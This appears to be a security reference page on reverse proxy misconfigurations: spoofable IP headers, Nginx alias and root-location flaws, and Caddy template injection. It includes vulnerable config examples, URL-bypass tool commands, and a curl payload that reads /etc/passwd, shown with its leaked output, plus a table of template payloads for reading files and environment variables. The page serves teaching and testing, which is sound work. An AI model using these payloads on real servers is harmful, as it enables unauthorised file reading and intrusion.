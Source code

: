 # Reverse Proxy Misconfigurations

> A reverse proxy is a server that sits between clients and backend servers, forwarding client requests to the appropriate server while hiding the backend infrastructure and often providing load balancing or caching. Misconfigurations in a reverse proxy, such as improper access controls, lack of input sanitization in proxy_pass directives, or trusting client-provided headers like X-Forwarded-For, can lead to vulnerabilities like unauthorized access, directory traversal, or exposure of internal resources.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [HTTP Headers](#http-headers)
        * [X-Forwarded-For](#x-forwarded-for)
        * [X-Real-IP](#x-real-ip)
        * [True-Client-IP](#true-client-ip)
    * [Nginx](#nginx)
        * [Off By Slash](#off-by-slash)
        * [Missing Root Location](#missing-root-location)
    * [Caddy](#caddy)
        * [Template Injection](#template-injection)
* [Labs](#labs)
* [References](#references)

## Tools

* [yandex/gixy](https://github.com/yandex/gixy) - Nginx configuration static analyzer.
* [shiblisec/Kyubi](https://github.com/shiblisec/Kyubi) - A tool to discover Nginx alias traversal misconfiguration.
* [laluka/bypass-url-parser](https://github.com/laluka/bypass-url-parser) - Tool that tests MANY url bypasses to reach a 40X protected page.

    ```ps1
    bypass-url-parser -u "http://127.0.0.1/juicy_403_endpoint/" -s 8.8.8.8 -d
    bypass-url-parser -u /path/urls -t 30 -T 5 -H "Cookie: me_iz=admin" -H "User-agent: test"
    bypass-url-parser -R /path/request_file --request-tls -m "mid_paths, end_paths"
    ```

## Methodology

### HTTP Headers

Since headers like `X-Forwarded-For`, `X-Real-IP`, and `True-Client-IP` are just regular HTTP headers, a client can set or override them if it can control part of the traffic path—especially when directly connecting to the application server, or when reverse proxies are not properly filtering or validating these headers.

#### X-Forwarded-For

`X-Forwarded-For` is an HTTP header used to identify the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer.

When a client makes a request through a proxy or load balancer, that proxy adds an X-Forwarded-For header containing the client’s real IP address.

If there are multiple proxies (a request passes through several), each proxy adds the address from which it received the request to the header, comma-separated.

```ps1
X-Forwarded-For: 2.21.213.225, 104.16.148.244, 184.25.37.3
```

Nginx can override the header with the client's real IP address.

```ps1
proxy_set_header X-Forwarded-For $remote_addr;
```

#### X-Real-IP

`X-Real-IP` is another custom HTTP header, commonly used by Nginx and some other proxies, to forward the original client IP address. Rather than including a chain of IP addresses like X-Forwarded-For, X-Real-IP contains only a single IP: the address of the client connecting to the first proxy.

#### True-Client-IP

`True-Client-IP` is a header developed and standardized by some providers, particularly by Akamai, to pass the original client’s IP address through their infrastructure.

### Nginx

#### Off By Slash

Nginx matches incoming request URIs against the location blocks defined in your configuration.

* `location /app/` matches requests to `/app/`, `/app/foo`, `/app/bar/123`, etc.
* `location /app` (no trailing slash) matches `/app*` (i.e., `/application`, `/appfile`, etc.),

This means in Nginx, the presence or absence of a slash in a location block changes the matching logic.

```ps1
server {
  location /app/ {
    # Handles /app/ and anything below, e.g., /app/foo
  }
  location /app {
    # Handles only /app with nothing after OR routes like /application, /appzzz
  }
}
```

Example of a vulnerable configuration: An attacker requesting `/styles../secret.txt` resolves to `/path/styles/../secret.txt`

```ps1
location /styles {
  alias /path/css/;
}
```

#### Missing Root Location

The `root /etc/nginx;` directive sets the server's root directory for static files.
The configuration doesn't have a root location `/`, it will be set globally set.
A request to `/nginx.conf` would resolve to `/etc/nginx/nginx.conf`.

```ps1
server {
  root /etc/nginx;

  location /hello.txt {
    try_files $uri $uri/ =404;
    proxy_pass http://127.0.0.1:8080/;
  }
}
```

### Caddy

#### Template Injection

The provided Caddy web server config uses the `templates` directive, which allows dynamic content rendering with Go templates.

```ps1
:80 {
    root * /
    templates
    respond "You came from {http.request.header.Referer}"
}
```

This tells Caddy to process the response string as a template, and interpolate any variables (using Go template syntax) present in the referenced request header.

In this curl request, the attacker supplied as `Referer` header a Go template expression: `{{readFile "etc/passwd"}}`.

```ps1
curl -H 'Referer: {{readFile "etc/passwd"}}' http://localhost/
```

```ps1
HTTP/1.1 200 OK
Content-Length: 716
Content-Type: text/plain; charset=utf-8
Server: Caddy
Date: Thu, 24 Jul 2025 08:00:50 GMT

You came from root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
```

Because Caddy is running the templates directive, it will evaluate anything in curly braces inside the context, including things from untrusted input. The `readFile` function is available in Caddy templates, so the attacker's input causes Caddy to actually read `/etc/passwd` and insert its content into the HTTP response.

| Payload                       | Description |
| ----------------------------- | ----------- |
| `{{env "VAR_NAME"}}`          | Get an environment variable   |
| `{{listFiles "/"}}`           | List all files in a directory |
| `{{readFile "path/to/file"}}` | Read a file |

## Labs

* [Root Me - Nginx - Alias Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-Alias-Misconfiguration)
* [Root Me - Nginx - Root Location Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-Root-Location-Misconfiguration)
* [Root Me - Nginx - SSRF Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-SSRF-Misconfiguration)
* [Detectify - Vulnerable Nginx](https://github.com/detectify/vulnerable-nginx)

## References

* [What is X-Forwarded-For and when can you trust it? - Phil Sturgeonopens - January 31, 2024](https://httptoolkit.com/blog/what-is-x-forwarded-for/)
* [Common Nginx misconfigurations that leave your web server open to attack - Detectify - November 10, 2020](https://blog.detectify.com/industry-insights/common-nginx-misconfigurations-that-leave-your-web-server-ope-to-attack/)

